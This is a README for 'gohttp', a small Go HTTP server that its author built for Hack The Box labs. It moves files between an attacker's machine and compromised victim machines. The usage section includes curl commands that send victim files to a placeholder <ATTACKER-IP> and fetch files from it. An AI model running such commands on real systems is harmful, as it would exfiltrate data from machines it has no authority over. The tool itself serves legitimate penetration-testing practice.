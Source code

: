 # gohttp
While playing on hackthebox.com I was missing the capability to upload files from the victims machines back to my machine with Python SimpleHTTPServer.  
Therefore I wrote **gohttp** which supports both uploading and downloading files just by using the go standard library.

## Installation
### easy install
```bash
go install github.com/hebelsan/gohttp
```
### docker
```bash
TODO
```
### manual
```bash
git clone https://github.com/hebelsan/gohttp
go run main.go
```

## Usage
All the files that should be served must go into the **./static** folder.

###  Download a file from your attack device:
```bash
curl -O http://<ATTACKER-IP>/<FILENAME>
```

###  Upload a file back to your attack device:
```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

###  Multiple file upload supported, just add more -F 'file=@<FILENAME>'
```bash
curl -F 'file=@<FILE1>' -F 'file=@<FILE2>' http://<ATTACKER-IP>/
```

## Configuration
Per default port 80 is used. To change it:
```bash
export PORT=4444
```